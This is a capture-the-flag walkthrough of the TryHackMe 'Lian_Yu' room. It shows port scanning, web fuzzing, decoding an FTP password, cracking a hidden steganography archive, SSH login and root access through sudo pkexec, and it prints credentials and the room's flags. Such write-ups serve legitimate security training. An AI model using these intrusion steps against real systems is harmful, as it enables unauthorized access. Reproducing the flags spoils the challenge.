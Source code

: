 # Lian_Yu
![tryhackme_logo](https://user-images.githubusercontent.com/83867734/185771149-cb02c6f2-8476-4ab3-a626-cca8db0a08bf.png)

Difficulty: **Easy**

Compromise the machine and read the user.txt and root.txt.

Tags
--
* Fuzzing
* Base58
* FTP
* Steganography
* SSH 
* Sudoers

Tools used
--
* nmap
* ffuf
* ftp
* steghide
* stegseek
* ssh
* pkexec

Machines
--
Attacker:
* Name: attacker_machine
* Operating System: Athena OS
* IP Address: 10.18.98.39

Victim:
* Name: victim_machine
* IP Address: 10.10.97.205
* Other information must be gathered during the attack

## Phase 1: Enumeration
```
sudo nmap -sS -sC -sV 10.10.97.205 -p- -T5 -vvv -g 53

<SNIP>
Discovered open port 80/tcp on 10.10.97.205
Discovered open port 21/tcp on 10.10.97.205
Discovered open port 111/tcp on 10.10.97.205
Discovered open port 22/tcp on 10.10.97.205
Discovered open port 54542/tcp on 10.10.97.205
<SNIP>
```
Let's fuzz the web service:
```
ffuf -u http://10.10.97.205/FFUF -H 'Host: 10.10.97.205' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv
:91.0) Gecko/20100101 Firefox/91.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-La
nguage: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'DNT: 1' -H 
'Sec-GPC: 1' -w $SECLISTS/Discovery/Web-Content/directory-list-2.3-small.txt:FFUF

island                  [Status: 301, Size: 235, Words: 14, Lines: 8, Duration: 117ms]
```
In the index of this directory there is the following content:
```
Ohhh Noo, Don't Talk...............

I wasn't Expecting You at this Moment. I will meet you there

You should find a way to Lian_Yu as we are planed. The Code Word is:
vigilante
```
Let's fuzz the `island` directory:
```
ffuf -u http://10.10.97.205/island/FFUF -H 'Host: 10.10.97.205' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv
:91.0) Gecko/20100101 Firefox/91.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-La
nguage: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'DNT: 1' -H 
'Sec-GPC: 1' -w $SECLISTS/Discovery/Web-Content/directory-list-2.3-small.txt:FFUF

2100                    [Status: 301, Size: 240, Words: 14, Lines: 8, Duration: 44ms]
```
By accessing to it, we have the following content:
```
How Oliver Queen finds his way to Lian_Yu?

<YouTube video (no more available)>
```
In the source code of this page, there is a comment saying `<!-- you can avail your .ticket here but how?   -->`.

Let's fuzz again by searching for a file ending with `.ticket`:
```
ffuf -u http://10.10.97.205/island/2100/FFUF.ticket -H 'Host: 10.10.97.205' -H 'User-Agent: Mozilla/5.0 (X11; Linu
x x86_64; rv:91.0) Gecko/20100101 Firefox/91.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -
H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 
'DNT: 1' -H 'Sec-GPC: 1' -w $SECLISTS/Discovery/Web-Content/directory-list-2.3-small.txt:FFUF

green_arrow             [Status: 200, Size: 71, Words: 10, Lines: 7, Duration: 53ms]
```
By accessing on it, we get the following message:
```
This is just a token to get into Queen's Gambit(Ship)

RTy8yhBQdscX
```
The ticket needs to be decoded as Base58 and we get `!#th3h00d`. It is the FTP password for the user `vigilante`.

## Phase 2: Foothold

Let's access to FTP by using the previous found credentials:
```
ftp 10.10.97.205 -n
Connected to 10.10.97.205.
220 (vsFTPd 3.0.2)
ftp> user
(username) vigilante
331 Please specify the password.
Password: !#th3h00d
230 Login successful.
```
In this FTP session, we can travel across the filesystem and we can see there is also another user: `slade`. For now, just get `aa.jpg` file in vigilante home folder. Usually JPG files can hide other files. When you are in FTP, be sure that the binary mode is set otherwise when we download files or images, they will be corrupted. For ensuring that, just write `binary` inside the FTP session:
```
ftp> binary
ftp> get aa.jpg
```
Note: maybe, if you use `ls`, FTP session switches from binary mode to ASCII mode.

Now let's crack the `aa.jpg` for getting the password to be used by steghide:
```
stegseek aa.jpg $SECLISTS/Passwords/Leaked-Databases/rockyou.txt

StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "password"
[i] Original filename: "ss.zip".
[i] Extracting to "aa.jpg.out".
```
Unzip `ss.zip` and we get two files: `passwd.txt`:
```
This is your visa to Land on Lian_Yu # Just for Fun ***


a small Note about it


Having spent years on the island, Oliver learned how to be resourceful and 
set booby traps all over the island in the common event he ran into dangerous
people. The island is also home to many animals, including pheasants,
wild pigs and wolves.
```
and `shado`:
```
M3tahuman
```
Let's use this password for connecting by SSH with the `slade` user:
```
ssh 10.10.97.205 -l slade
Enter password: M3tahuman

cat user.txt

THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}
			--Felicity Smoak
```

## Phase 3: Privilege Escalation
Run:
```
sudo -l

Matching Defaults entries for slade on LianYu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
```
So, run the following:
```
sudo pkexec --user root cat root.txt

                          Mission accomplished

You are injected me with Mirakuru:) ---> Now slade Will become DEATHSTROKE. 

THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}
									     --DEATHSTROKE
```